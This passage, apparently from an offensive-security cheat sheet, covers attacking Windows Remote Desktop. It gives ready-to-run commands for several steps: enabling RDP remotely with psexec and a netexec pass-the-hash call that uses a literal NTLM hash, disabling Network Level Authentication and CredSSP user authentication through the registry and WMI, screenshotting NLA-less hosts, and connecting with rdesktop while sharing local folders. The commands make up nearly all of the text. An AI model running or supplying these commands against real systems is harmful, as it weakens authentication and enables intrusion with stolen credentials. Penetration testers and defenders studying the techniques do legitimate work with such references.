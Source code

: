     # Alternative
    C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
    root@payload$ netexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
    ```

* Fix CredSSP errors

    ```ps1
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
    ```

**Network Level Authentication** requires the user to authenticate before a remote desktop session is fully established. This happens before the remote desktop interface is loaded, reducing the risk of certain attacks.

* Take screenshot when NLA is disabled

    ```ps1
    netexec rdp 10.10.10.10 -u user -p pass --nla-screenshot
    ```

* Disable NLA

    ```ps1
    PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
    PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
    ```

Abuse RDP protocol to execute commands remotely with the following commands;

* [Pennyw0rth/netexec](https://github.com/Pennyw0rth/NetExec)

    ```ps1
    netexec rdp 10.10.10.10 -u user -p pass
    ```

* [rdesktop](http://www.rdesktop.org/)

    ```powershell
    root@payload$ rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
    root@payload$ rdesktop -u username -p password -g 70% -r disk:share=/tmp/myshare 10.10.10.10
    # -g : the screen will take up 70% of your actual screen size
    # -r disk:share : sharing a local folder during a remote desktop session 
    ```
